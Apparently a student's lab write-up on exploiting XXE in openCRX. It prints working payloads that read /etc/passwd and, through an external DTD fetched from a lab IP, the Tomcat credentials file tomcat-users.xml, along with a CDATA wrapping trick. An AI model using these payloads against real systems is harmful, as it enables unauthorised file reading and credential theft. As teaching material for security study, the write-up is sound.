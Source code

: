 To get file read, we can use the following payload. This returns us the output from the file read. If instead we simply supply a file directory path (exercise 9.3.6.2), the output will return the directory listing instead. 

```xml
<?xml version="1.0"?>
<!DOCTYPE data[
<!ELEMENT data ANY>
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
  <lastName>&lastname;</lastName>
  <firstName>Test #1</firstName>
</org.opencrx.kernel.account1.Contact>
```

We also notice that the application attempted to insert it into a database in at least one field, resulting in an SQLexception. 

### Extra Mile 9.3.6.3

*Create a script to parse the results of the XXE attack and cleanly display the file contents.*

We can use a unique breakpoint string to sandwich our external entity to easily split the string and read our file contents.  

```xml
<?xml version="1.0"?>
<!DOCTYPE data [<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<org.opencrx.kernel.account1.Contact>
<lastName>hhhhhbreakpoint&lastname;hhhhhbreakpoint</lastName>
<firstName>Tom</firstName>
</org.opencrx.kernel.account1.Contact>
```

## CDATA

XXE vulnerabilities can read simple files, however, we may encounter parser errors if we attempt to read XML files or files that contain key XML characters like `<>`.  As such, our XML content needs to be properly formatted after file contents are inserted, which should be done with **character escaping**. 

CDATA sections are XML sections in which internal contents are not treated as markup. If we wrap file contents in these tags, the parser will not treat it as markup and format it properly. 

```xml
<![CDATA["" content "]]>"
```

We can’t reference a single entity from within the DTD they are defined and need to use parameters referenced by the wrapper entity in an external DTD file. As such, we’ll define our wrapper DTD class in an external file and reference it from our injection.

```xml
wrapper.dtd file:
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///home/student/crx/apache-tomee-plus-7.0.5/conf/tomcat-users.xml" >
<!ENTITY % end "]]>">
<!ENTITY wrapper "%start;%file;%end;">

Injection XML:
<?xml version="1.0"?>
<!DOCTYPE data[
<!ENTITY % dtd SYSTEM "http://192.168.45.221/wrapper.dtd" >
%dtd;
]>
<org.opencrx.kernel.account1.Contact>
```